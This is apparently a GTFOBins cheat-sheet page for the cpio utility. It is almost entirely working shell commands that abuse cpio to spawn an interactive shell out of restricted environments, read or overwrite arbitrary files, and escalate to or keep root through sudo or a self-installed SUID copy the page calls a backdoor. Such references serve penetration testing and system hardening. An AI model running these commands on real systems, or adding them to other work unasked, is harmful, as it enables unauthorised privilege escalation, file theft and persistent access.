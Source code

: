 # GTFOBin: cpio

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
echo '/bin/sh </dev/tty >/dev/tty' >localhost
cpio -o --rsh-command /bin/sh -F localhost:
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

Copies `$LFILE` to the `$LDIR` directory.

```
LFILE=file_to_write
LDIR=where_to_write
echo DATA >$LFILE
echo $LFILE | cpio -up $LDIR
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

The content of the file is printed to standard output, between the cpio archive format header and footer.

```
LFILE=file_to_read
echo "$LFILE" | cpio -o
```

The whole directory structure is copied to `$TF`.

```
LFILE=file_to_read
TF=$(mktemp -d)
echo "$LFILE" | cpio -dp $TF
cat "$TF/$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

The whole directory structure is copied to `$TF`.

```
sudo install -m =xs $(which cpio) .

LFILE=file_to_read
TF=$(mktemp -d)
echo "$LFILE" | ./cpio -R $UID -dp $TF
cat "$TF/$LFILE"
```

Copies `$LFILE` to the `$LDIR` directory.

```
sudo install -m =xs $(which cpio) .

LFILE=file_to_write
LDIR=where_to_write
echo DATA >$LFILE
echo $LFILE | ./cpio -R 0:0 -p $LDIR
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
echo '/bin/sh </dev/tty >/dev/tty' >localhost
sudo cpio -o --rsh-command /bin/sh -F localhost:
```

The whole directory structure is copied to `$TF`.

```
LFILE=file_to_read
TF=$(mktemp -d)
echo "$LFILE" | sudo cpio -R $UID -dp $TF
cat "$TF/$LFILE"
```

Copies `$LFILE` to the `$LDIR` directory.

```
LFILE=file_to_write
LDIR=where_to_write
echo DATA >$LFILE
echo $LFILE | sudo cpio -R 0:0 -p $LDIR
```